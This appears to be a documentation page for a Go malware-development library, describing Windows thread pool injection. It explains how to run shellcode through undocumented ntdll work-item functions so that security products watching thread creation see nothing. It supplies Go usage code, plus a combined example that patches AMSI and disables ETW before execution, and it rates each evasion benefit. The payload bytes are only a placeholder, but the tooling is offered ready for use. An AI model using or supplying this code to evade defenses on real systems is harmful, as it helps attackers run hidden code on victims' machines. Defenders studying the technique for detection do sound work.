

# Thread Pool Injection

> **MITRE ATT&CK:** T1055.001 -- Process Injection: DLL Injection | **D3FEND:** D3-PSA -- Process Spawn Analysis | **Detection:** Low-Medium

## Primer

Imagine a company has a shared inbox where employees pick up work assignments. Instead of hiring a new employee to do your task (which would be noticed by HR), you drop your task into the shared inbox. One of the existing workers picks it up during their normal workflow and completes it. Nobody was hired, nobody was fired, and the task got done by a regular employee.

Thread pool injection abuses the Windows thread pool. Every process has a default thread pool with worker threads that sit idle, waiting for work items. Using the undocumented `TpAllocWork`, `TpPostWork`, and `TpReleaseWork` functions from `ntdll.dll`, you create a work item with your shellcode as the callback function, post it to the pool, and wait for it to complete. An existing worker thread picks up the work item and executes your shellcode.

The critical evasion benefit: no `CreateThread`, `CreateRemoteThread`, or `NtCreateThreadEx` calls. The shellcode runs on a pre-existing thread pool thread, which is completely normal behavior for Windows applications. Security products monitoring thread creation see nothing unusual.

## How It Works



**Step-by-step:**

1. **VirtualAlloc(RW)** -- Allocate writable memory in the current process and copy the shellcode.
2. **VirtualProtect(RX)** -- Flip to execute-read. The two-step avoids the suspicious RWX allocation.
3. **TpAllocWork** -- Create a thread pool work item. The callback address is the shellcode. Returns a TP_WORK handle.
4. **TpPostWork** -- Submit the work item to the default thread pool queue.
5. **Worker execution** -- An existing idle worker thread dequeues the item and calls the shellcode as if it were a normal work callback.
6. **TpWaitForWork** -- Block until the callback completes (prevents premature cleanup).
7. **TpReleaseWork** -- Free the work item resources.

## Usage

```go
package main

import (
    "log"

    "github.com/oioio-space/maldev/inject"
)

func main() {
    shellcode := []byte{0x90, 0x90, 0xCC}

    // ThreadPoolExec handles allocation, protection, and pool dispatch.
    if err := inject.ThreadPoolExec(shellcode); err != nil {
        log.Fatal(err)
    }
}
```

## Combined Example

```go
package main

import (
    "log"

    "github.com/oioio-space/maldev/evasion"
    "github.com/oioio-space/maldev/evasion/amsi"
    "github.com/oioio-space/maldev/evasion/etw"
    "github.com/oioio-space/maldev/inject"
)

func main() {
    shellcode := []byte{0x90, 0x90, 0xCC}

    // 1. Disable AMSI and ETW before running shellcode.
    techniques := []evasion.Technique{
        amsi.ScanBufferPatch(),
        etw.All(),
    }
    if errs := evasion.ApplyAll(techniques, nil); errs != nil {
        for name, err := range errs {
            log.Printf("evasion %s: %v", name, err)
        }
    }

    // 2. Execute via thread pool -- no new thread created.
    if err := inject.ThreadPoolExec(shellcode); err != nil {
        log.Fatal(err)
    }
}
```

## Advantages & Limitations

| Aspect | Detail |
|--------|--------|
| Stealth | High -- no thread creation APIs called. Reuses existing worker threads. |
| API surface | Uses undocumented `TpAllocWork` / `TpPostWork` / `TpReleaseWork` from ntdll. Less likely to be hooked than documented APIs. |
| Execution model | Synchronous from the caller's perspective (`TpWaitForWork` blocks). The shellcode runs on a pool worker thread. |
| Compatibility | Windows 7+ (thread pool API is stable but undocumented). |
| Limitations | Local injection only. The shellcode must be position-independent. If the process has no thread pool initialized yet, `TpAllocWork` initializes one (visible in ETW). |
| Call stack | The callback call stack originates from `ntdll!TppWorkerThread`, which is normal for any application using the thread pool. |

## API Reference

```go
// ThreadPoolExec executes shellcode via the current process's thread pool.
// Uses TpAllocWork + TpPostWork + TpReleaseWork from ntdll to schedule
// shellcode as a worker callback on an existing thread pool thread.
func ThreadPoolExec(shellcode []byte) error
```
